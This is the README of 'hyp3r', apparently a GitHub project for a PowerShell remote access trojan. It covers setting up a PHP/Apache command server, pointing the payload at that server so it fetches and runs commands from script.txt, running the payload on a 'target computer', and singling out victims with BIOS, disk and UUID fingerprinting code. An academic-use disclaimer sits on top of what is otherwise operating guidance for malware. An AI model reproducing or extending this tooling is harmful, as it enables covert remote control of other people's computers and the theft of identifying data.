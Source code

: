# hyp3r RAT

<img src=https://upload.wikimedia.org/wikipedia/commons/2/2f/PowerShell_5.0_icon.png>

## hyp3r is a basic Remote Access Tool (RAT) written in powershell.

**DISCLAIMER: THIS PROJECT IS FOR ACADEMIC PURPOSES ONLY. THE DEVELOPERS TAKE NO RESPONSIBILITY FOR ILLEGAL USAGE AND/OR POTENTIAL HARMS.**

<hr>

## Requirements
  - PHP 8.0.2 (might work on older versions as well).
  - Apache web server.
  - PowerShell version 5.1 (might work on older versions as well) installed on the target computer (Required for cmdlets to run).

## Features
  - WebGUI.
  - Live target status.
  - Remote shell execution.
  - Multi-target support (The script can handle as many targets as your server can).
  - Simple and easy to customize scripts.

## Notes
  - The timezone of both the server and the payload are set to GTB Standard Time so take that into account if you want to modify the inner workings of the script.
  - Remember to modify the parameters inside the payload (`http.ps1`) to suit your needs.

## Installation

### 1. Clone this repository

You can use git to clone this repository or download the .zip file from GitHub.

```bash
git clone https://github.com/xze3n/hyp3r.git
cd hyp3r/
```

### 2. Configure
  - Copy the contents of the `apache` folder to your webserver's page folder.
  - Edit lines `2`, `3` and `4` inside `http.ps1` as follows: 

```powershell
$verurl = 'http://your_website_url_or_ip/script.txt'
$url = 'http://your_website_url_or_ip'
$stop = 'the syntax of your choice to force stop the payload on the target machine'
```

  - Save and close the file. The installation is now complete!

## Usage

#### 1. Start your webserver.
#### 2. Run the powershell payload on the target computer.
#### 3. Open `localhost` inside a browser to see the active connections.

#### To run commands on the target computer(s) open the file called `script.txt` inside your webserver's page folder and modify its contents
  - Example:
```powershell
[System.Console]::Beep(1000,300)
```

  -the syntax above will result in a short *beep* given out by the target
### Notes:
  - The commands or scripts you write inside `script.txt` must be powershell code (obviously).
  - If you have multiple targets that listen to the same server the commands inside `script.txt` will be ran by all of the computers listening.
  - If you want to run a command only on one of the targets you will have to get a little creative:

```powershell
if($env:COMPUTERNAME -eq "TARGET-PC") {
	echo "now it will only be executed by targets with the user TARGET-PC"
}
```
  - If the `COMPUTERNAME` identifier is way to simple for your needs and it brings up problems you can use the scripts unique identifier composed of the biosid, hddid and uuid of the target computer

```powershell
$a=Get-WmiObject win32_bios | Format-List SerialNumber | out-string; $id_bios=$a.split(' ')[2].Trim(); #bios id
$b=wmic diskdrive get serialnumber; $id_hdd=$b.split('\n')[2].Trim(); #hdd id
$c=Get-WmiObject -Class Win32_ComputerSystemProduct | Select-Object -Property UUID | out-string;$id_uuid=$c.split(' ')[64].Trim() #uuid
$ids=$ids=$id_bios, $id_hdd, $id_uuid; $ids=[system.String]::Join("_", $ids);
if($ids -eq "UNIQUE_IDENTIFIER") {
	doStuff()
}
```


  - You can get the UNIQUE_IDENTIFIER of a computer from the `data.txt` file inside the webserver's page folder: 
  - eg. `CND83492ZZ_69BCTDGFT_760BD1B8-5170-E821-A4C3-1063E5C2E22F`.
